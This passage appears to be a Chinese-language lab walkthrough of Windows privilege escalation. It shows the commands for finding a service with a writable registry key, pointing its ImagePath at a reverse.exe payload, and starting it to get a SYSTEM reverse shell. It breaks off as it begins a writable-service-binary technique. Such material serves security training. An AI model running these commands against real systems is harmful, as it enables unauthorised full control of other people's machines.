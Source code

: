 ###### 注册表可写

查询某项 服务，它以SYSTEM特权（SERVICE_START_NAME）运行。

```
sc qc regsvc
```

![image-20200712115758479](assets/8.提权.assets/image-20200712115758479.png)

使用accesschk.exe，请注意这项服务服务的注册表项是 ，可由“ NT AUTHORITY \ INTERACTIVE”组（基本上是所有登录的用户）写入 的，服务的注册表项在注册表中的`HKLM\System\CurrentControlSet\Services\`

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

![image-20200712115636327](assets/8.提权.assets/image-20200712115636327.png)

覆盖ImagePath注册表项，以指向您创建的reverse.exe可执行文件：

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

在Kali上启动侦听器，然后启动服务以生成以SYSTEM特权运行的反向Shell：

```
net start regsvc
```

###### 服务主应用程序可写

查询“ filepermsvc” 服务，它以SYSTEM特权（SERVICE_START_NAME）运行。记录它的路径

```
sc qc filepermsvc
```
